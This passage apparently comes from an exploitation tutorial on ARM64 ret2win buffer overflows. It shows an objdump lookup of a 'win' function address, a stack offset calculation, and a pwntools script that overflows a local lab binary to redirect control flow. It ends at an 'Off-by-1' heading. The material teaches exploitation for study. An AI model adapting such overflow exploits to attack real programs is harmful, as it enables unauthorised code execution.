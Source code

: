 Then: **`0xfffffffff148 - 0xfffffffff100 = 0x48 = 72`**

<figure><img src="../../../images/image (1210).png" alt="" width="339"><figcaption></figcaption></figure>

## No PIE

### Regular

Get the address of the **`win`** function:

```bash
objdump -d ret2win | grep win
ret2win:     file format elf64-littleaarch64
00000000004006c4 <win>:
```

Exploit:

```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p64(0x00000000004006c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```

<figure><img src="../../../images/image (1211).png" alt="" width="375"><figcaption></figcaption></figure>

### Off-by-1
